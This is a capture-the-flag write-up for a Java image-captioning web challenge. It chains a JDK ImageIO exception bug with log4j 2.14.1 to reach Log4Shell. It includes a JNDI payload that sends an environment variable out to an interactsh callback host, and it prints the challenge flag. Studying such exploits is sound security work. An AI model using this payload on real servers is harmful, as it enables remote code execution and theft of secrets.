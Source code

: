 # Text Polyfill

## Challenge Description
We feel your pain. You love to generate art with AI, but hate the fact it can't put simple text on your pictures. Well... Fear no more. Our simple website allows to add any text to your AI generated images without a hassle. Enjoy!

## Initial Analysis
The challenge provides a web application that allows users to upload an image and add text to it. The application is built using Java and runs on an Apache Tomcat server.

Upon analyzing the provided code and Dockerfile, we notice the following:
- The application uses an old Java version (1.8.0_71) 

```bash
root@f5a8b076a1d3:/> java -version

java version "1.8.0_71"

Java(TM) SE Runtime Environment (build 1.8.0_71-b15)

Java HotSpot(TM) 64-Bit Server VM (build 25.71-b15, mixed mode)
```

- The `ImageTextServer` servlet handles the image processing and text overlay functionality.
- The `javax.imageio.ImageIO` library is used to read and write images.
- The application uses a vulnerable version of the `log4j` library (2.14.1) for logging.

```xml
<dependencies>
    <dependency>
        <groupId>org.apache.logging.log4j</groupId>
        <artifactId>log4j-core</artifactId>
        <version>2.14.1</version>
    </dependency>
    <dependency>
        <groupId>org.apache.logging.log4j</groupId>
        <artifactId>log4j-api</artifactId>
        <version>2.14.1</version>
    </dependency>
</dependencies>
```

This log4j allows to execute Log4Shell attack, but the only pace the logger is used is in the exception that should never happen according to the documentation of `javax.imageio.ImageIO`.

Further investigation reveals that there is a known bug in the `javax.imageio.ImageIO` library for the specific Java version used in the challenge. The bug causes the library to throw undocumented exceptions other than `IOException` when processing corrupted PNG images.

https://bugs.openjdk.org/browse/JDK-8152979

## Vulnerability
The vulnerability in this challenge lies in the combination of two factors:

1. The use of an outdated Java version (1.8.0_71) with a known bug in the `javax.imageio.ImageIO` library.
2. The presence of a vulnerable version of the `log4j` library (2.14.1) in the application.

By exploiting the bug in the `javax.imageio.ImageIO` library, we can trigger an exception that is not properly handled by the application. This exception will be logged using the vulnerable `log4j` library, allowing us to inject malicious payloads and perform a remote code execution attack known as Log4Shell.

## Exploitation
To exploit this vulnerability and retrieve the flag, we can use the `interactsh` tool to simplify the process. Here's how we can do it:

1. Install the `interactsh` tool by following the instructions on the [project's GitHub repository](https://github.com/projectdiscovery/interactsh).

2. Start an `interactsh` server:

```
interactsh-client -v
```

3. Note the generated interaction URL provided by `interactsh`.

4. Create a corrupted PNG image by randomly changing some bytes in a valid PNG file.

5. Prepare a Log4Shell payload using the `interactsh` interaction URL:

```
${jndi:ldap://${env:flag}.<interactsh-url>}
```

Replace `<interactsh-url>` with the interaction URL obtained from `interactsh`.

6. Send a POST request to the `/process` endpoint of the application, including the corrupted PNG image and the Log4Shell payload as the text parameter.

7. The `javax.imageio.ImageIO` library will throw an undocumented exception while processing the corrupted image.

8. The exception will be caught by the generic `Exception` block in the code, and the text parameter (containing the Log4Shell payload) will be logged using the vulnerable `log4j` library.

9. The Log4Shell payload will be executed, triggering an interaction with the `interactsh` server.

10. The `interactsh` server will capture the interaction, which will include the value of the "flag" environment variable.


Flag: `1753c{generate_text_to_get_an_epic_rce}`

### Conclusion
The "Text Polyfill" challenge demonstrates the risks associated with using outdated software components and the importance of proper exception handling and input validation. The combination of a known bug in the `javax.imageio.ImageIO` library and the presence of a vulnerable `log4j` version allowed for a remote code execution attack using the Log4Shell vulnerability.

This challenge highlights the need for regular software updates, thorough testing, and secure coding practices to prevent such vulnerabilities. It also emphasizes the importance of properly handling exceptions and validating user input to mitigate the risk of exploitable scenarios.

By leveraging the `interactsh` tool, participants can simplify the exploitation process and capture the flag value through interactions triggered by the Log4Shell payload. This tool provides a convenient way to detect and capture out-of-band interactions during the exploitation of vulnerabilities like Log4Shell.